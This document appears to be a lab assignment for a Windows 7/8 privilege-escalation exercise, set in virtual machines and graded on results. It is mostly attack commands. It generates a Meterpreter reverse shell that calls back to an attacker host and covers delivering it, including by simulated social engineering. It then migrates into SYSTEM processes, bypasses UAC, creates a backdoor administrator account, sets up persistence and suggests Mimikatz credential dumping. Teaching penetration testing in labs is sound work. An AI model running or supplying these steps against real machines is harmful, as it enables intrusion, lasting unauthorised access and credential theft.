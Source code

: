 **Privilege Escalation Task**

**Objective**  
Escalate privileges on a Windows 7 or Windows 8 machine by identifying vulnerabilities and exploiting them to gain administrator or system-level access.

**Requirements**  
- Kali Linux virtual machine (Metasploit, PowerSploit, and Windows Exploit Suggester)
- Windows 7 or Windows 8 virtual machine (standard user account)
- Virtual environment (VirtualBox or VMware with NAT/Host-Only Network)
- Required tools:
  - Metasploit Framework
  - Windows Exploit Suggester
  - PowerShell scripts (PowerUp, Invoke-AllChecks)

---

### **Part 1: Gaining Initial Access**

1. **Generate a Meterpreter Reverse Shell Payload** using msfvenom:
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_IP> LPORT=4444 -f exe > shell.exe
   ```
2. **Deliver the Payload** to the Windows machine through any method such as:
   - USB drive (simulated)
   - Social engineering (simulated)
   - Execution via PowerShell
   - Expose it to internet using apache2
3. **Set Up a Listener in Metasploit:**
   ```
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <Kali_IP>
   set LPORT 4444
   exploit -j
   ```
4. **Execute the Payload on Windows 7/8** and establish a connection.

---

### **Part 2: Privilege Escalation**

#### **Step 1: Identify Privileges**
Inside Meterpreter, check the current user:
```
getuid
```
Check system information:
```
sysinfo
```

#### **Step 2: Use Automated Privilege Escalation Tools**

**Option 1: Metasploit GetSystem**
```
use post/windows/escalate/getsystem
run
```

**Option 2: Migrate to a High-Privilege Process**
1. List running processes:
   ```
   ps
   ```
2. Identify a process owned by SYSTEM (e.g., winlogon.exe, lsass.exe).
3. Migrate into the process:
   ```
   migrate <PID>
   ```
4. Verify privilege level:
   ```
   getuid
   ```

**Option 3: PowerShell Privilege Escalation (Manual)**
1. Upload and execute PowerUp:
   ```
   upload /usr/share/windows-resources/powerup.ps1 C:\\Users\\Public\\powerup.ps1
   ```
   ```
   powershell -ExecutionPolicy Bypass -File C:\\Users\\Public\\powerup.ps1
   ```
2. Identify misconfigured services, unquoted service paths, or DLL hijacking opportunities.

#### **Step 3: Exploit a Local Vulnerability**
1. On Kali, download the Windows Exploit Suggester:
   ```
   git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
   ```
2. Collect Windows system information:
   ```
   systeminfo > win7info.txt
   ```
3. Run the exploit suggester:
   ```
   python windows-exploit-suggester.py -i win7info.txt -d exploits.csv
   ```
4. Identify a suitable exploit (e.g., CVE-2016-0099) and execute it.

#### **Step 4: Bypass UAC (User Account Control)**
If the user is in the Administrators group but blocked by UAC, try:
```
use exploit/windows/local/bypassuac
set SESSION 1
exploit
```

---

### **Part 3: Post-Exploitation**

1. **Create a New Admin User:**
   ```
   net user hacker P@ssw0rd /add
   net localgroup administrators hacker /add
   ```
2. **Set Up Persistence:**
   ```
   run persistence -U -i 5 -p 4444 -r <Kali_IP>
   ```

---

### **Evaluation Criteria**
You will be assessed based on the following criteria:
- Successfully gaining initial access to the Windows 7/8 machine.
- Using at least two different privilege escalation techniques.
- Documenting each step taken and explaining obstacles encountered.
- Demonstrating post-exploitation tasks such as creating a new user and establishing persistence.

---

### **Bonus Challenges**
- Exploit unquoted service paths.
- Perform DLL hijacking.
- Set up scheduled tasks for persistence.
- Use Mimikatz for credential dumping.
